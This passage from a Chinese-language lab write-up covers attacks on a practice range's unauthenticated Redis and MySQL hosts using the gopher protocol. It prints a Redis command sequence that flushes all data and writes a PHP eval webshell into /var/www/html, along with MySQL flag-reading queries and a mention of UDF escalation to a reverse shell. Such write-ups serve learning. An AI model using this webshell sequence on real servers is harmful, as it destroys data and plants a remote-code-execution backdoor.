





这台机器也直接拿下了，还可以写入webshell，

```
auth P@ssw0rd
flushall
config set dir /var/www/html
config set dbfilename shell.php
set mars "<?=@eval($_POST[1]);?>"
save
quit
```



我这方法真的比现在公开的所有方法都简单吧，他们写的是这种

- +代表简单字符串（Simple Strings）比如OK，PONG（对应客户端的PING命令）
- -代表错误类型（Errors）

- :代表整型（Integers）

- $代表多行字符串（Bulk Strings）

- *代表数组（Arrays）

我认为是不太方便的

## 192.168.100.29未授权mysql

首先就是确实数据库里面有个flag，我们如果拿到shell之后可以

```
mysql -uroot
show databases;
use flag;
show tables;
select * from test;
```

但是此时不能getshell，并且得知一个事情，MySQL 需要密码认证时，服务器先发送 salt 然后客户端使用 salt 加密密码然后验证，但是当无需密码认证时直接发送 TCP/IP 数据包即可

但是但是这里有个最重要的点就是需要配合着去抓流量包，这个对于本web小子来说，暂时有些困难，所以这个坑先留着，后面一定填，并且是连着需要密码认证的时候一起说了

这台机器后面需要UDF提权反弹shell，没什么好说的，老东西

## 小结

学习的时候建议是搭建代理来进行的，不然有些时候抓的包他就是不对，就是需要重新来弄的，靶场非常简单，但是让我非常深刻的知道了gopher协议的使用，这个靶场可以魔改，让他变的更加有难度，有兴趣的师傅可以自己弄一
